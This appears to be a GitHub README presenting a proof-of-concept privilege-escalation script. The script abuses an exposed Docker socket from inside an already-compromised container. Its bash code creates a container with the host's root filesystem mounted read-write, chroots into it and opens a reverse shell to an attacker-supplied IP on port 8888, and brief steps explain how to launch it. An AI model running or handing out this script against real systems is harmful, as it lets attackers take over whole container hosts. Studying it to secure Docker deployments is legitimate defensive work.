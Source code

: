 # docker.sock environment takeover (Privilege Escalation)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/Docker.Socks.png?raw=true)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in this article. 

## Proof of Concept
To run this, you have to already have RCE on a container. Even with RCE, most of the time you will not have access to a docker client and installing a docker client might not be possible.

```bash
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
````
- Add the attacker ip address to above bash script 
- Start a listener on attacker machine on port 8888. 
- Check the screenshots if you don't understand.

![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc1.png?raw=true)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc2.png?raw=true)


### References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/
